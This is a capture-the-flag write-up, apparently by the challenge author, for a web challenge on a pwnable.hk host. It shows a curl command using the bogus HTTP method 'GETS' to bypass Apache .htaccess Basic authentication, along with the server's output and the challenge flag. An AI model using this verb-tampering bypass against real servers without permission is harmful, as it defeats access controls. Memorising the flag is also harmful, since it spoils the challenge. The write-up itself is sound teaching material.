


# Write-up

## Prologue 

Hint is useless if you are stuck in the middle. Pray for you if you pay for it with 10 score.

## Walk-through

### robots.txt

The website <http://tertiary.pwnable.hk:50007/> will redirect you to rickroll as I'm too lazy to write a real webpage.
`robots.txt` file under root should be found


Which will guide you to visit to <http://tertiary.pwnable.hk:50007/b5HCLDptFQ6ZIZzw/flag.php>

## flag.php

To prevent others brute-forcing the directory, I have use a random string as folder name.
Once visit, the browser will prompt you to login.


However, the description said that no password has been set up. So we have to think of ways to bypass login prompt.
Here I use a trick of both `.htaccess` and `.htpasswd`. Once user use HTTP Header not restricted by `.htacces`, they can visit the page. Thanks for the help of php for pharsing all invalid header as valid one.

```console
byronwai@kali:~$ curl -X GETS http://tertiary.pwnable.hk:50007/b5HCLDptFQ6ZIZzw/flag.php
Congraulations! You get the flag.<br>hkcert{misc0nfiguration_0f_htacc3ss_is_fata1}
<script>
setTimeout(function () {
   window.location.href= 'https://www.youtube.com/watch?v=gkTb9GP9lVI&ab_channel=JwHDify';
}, 5000);
</script>
```

## Flag
`hkcert{misc0nfiguration_0f_htacc3ss_is_fata1}`

Yes, I got a typo in flag format. Sorry man.

## Epilogue
Solve: 2/84 (Secondary)
Solve: 3/81 (Tertiary)

Someone said that this challenge is a bit gessy for the HTTP header. However, the Apache prompt is giving hints that `AuthType Basic` is used. There are bunches of tutorial on web giving `.htaccess` config with weak security.

## Reference

<https://www.opencli.com/apache/apache-user-login>
<https://cd34.com/blog/web-security/hackers-bypass-htaccess-security-by-using-gets-rather-than-get/>
